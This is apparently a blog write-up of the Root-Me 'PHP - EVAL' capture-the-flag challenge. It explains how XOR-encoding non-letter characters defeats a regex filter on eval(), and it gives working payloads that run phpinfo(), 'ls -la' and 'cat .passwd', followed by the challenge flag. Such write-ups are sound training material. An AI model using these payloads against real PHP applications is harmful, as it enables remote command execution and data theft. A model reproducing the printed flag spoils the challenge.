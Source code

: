 ```yaml
---
title: "PHP - EVAL | Rootme"
date: 2024-04-17
categories: [CHALLENGES, PHP - EVAL]
tags: [CHALLENGES, CTF] 
---
```



Hello,  In this Writeup, we will Explain methods for executing non-alphabetical PHP code to bypass PHP filters in [PHP - EVAL](https://www.root-me.org/fr/Challenges/Web-Serveur/PHP-Eval) challenge.

Firstly, we will analyze the source code of the challenge.
```php
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>

```
The PHP script first checks if a POST parameter named  `input`  is present. If the input lacks letters or backticks, it's evaluated as PHP code using eval(), with the result printed on the screen. However, if letters or backticks are detected, it warns of "Dangerous code."

After some Reasearch on google, I found a way to bypass this filter which is `bypass using Non alphabetical char encoding.` Let's Discuss and we can use [onlinegdb](https://www.onlinegdb.com/) to test and run php code easily and faster. In php we can use XOR operator between characters not only numbers to produce another character. 

![img_screenshot](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/c1b4322b-f443-47b2-8b02-fab5c3e1f748)

So, here's the idea of our attack, what if we can reproduce an alphabetical char from  `xoring two non alphabetical chars.`  How can we do that ? 

The XOR operator works like this: When you XOR any two numbers, it produces a result. If you then XOR this result with one of the original numbers, you'll get the other original number. 

We can take a Demo form the following python test on python Interpreter. We can choose character like  `s`  that we want to produce it using XOR operator of two unkown character.

Steps of what we can do: 

1) Getting ASCII decimal of the letter  `s`  which is 115 using ord() function in python.

2) Selecting a random non-alphabetical-char like  `@`  and getting an ASCII decimal of this char which is 64.

3) XORING this two decimal numbers and convert the result into char using chr() in python.

4) Checking if the char is alphabetical char or not and the goal is to be non-alphabetical-char to bypass the filter.

5) Finally, xoring the random non-alphabetical-char and the number resulted from xor operation will give us the letter we need to need.

![img_screenshot1](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/734892cd-9efc-4dd0-b1c7-ea3e436aadb7)

we can now try this small payload in our challenge website:  `"@"^"3"`

![img_screenshot2](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/66e4baa4-2430-46c6-a9e2-5ffd554a6857)

Nice, we can now automate this process using python, I write simple tool to automate this task which 
is [php-non-alphabetical-Encoder](https://github.com/0XMohomiester/PHP-Non-Alphabetical-Encoder.git)

we can now use it to generate `phpinfo` word to execute `phpinfo()` in the server.

```bash
python3 php-non-alpha-encoder.py phpinfo
("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@")
```
we can we make a php to call this as php function?
in php, If we declare `$__` as variable ad store the generted string from the tool in it and call it as `$__();` it will be executed as php function we can use it as: 
```php
$__ = ("+"^"[").("("^"@").("+"^"[").(")"^"@").("."^"@").("&"^"@").("/"^"@");
$__();
```

![img_screenshot3](https://github.com/0XMohomiester/0XMohomiester.github.io/assets/47929033/36cbf8b5-d666-4f00-8797-3c03e61e01c5)

we can use payload like this:  `system("ls -la")` to run system commands

```php
$_1 = (","^"@").("("^"[");
$_2 = "-"; 
$_3 = (","^"@").("!"^"@"); 
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");  
$__($_1 . " " . $_2 . $_3);
```

Goood, Command executed and flag is inside `.passwd` file. 

![img_screenshot4](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/4555d2f6-6ab0-472d-9f54-552cfa6a62ff)


We can now generate payload like : `system("cat .passwd")` to get the flag.

```php
$_1 = ("#"^"@").("!"^"@").(")"^"]");
$_2 = ("+"^"[").("!"^"@").("("^"[").("("^"[").("("^"_").("$"^"@");
$__ = ("("^"[").("$"^"]").("("^"[").(")"^"]").("%"^"@").("-"^"@");
$__($_1 . " " . "." . $_2);
```
and Finally here is our flag : `M!xIng_PHP_w1th_3v4l_L0L`

![img_screenshot5](https://github.com/0XMohomiester/Cyborg_Cybertalents/assets/47929033/6ad9a53d-60af-4421-836b-6a9dc2be8e77)
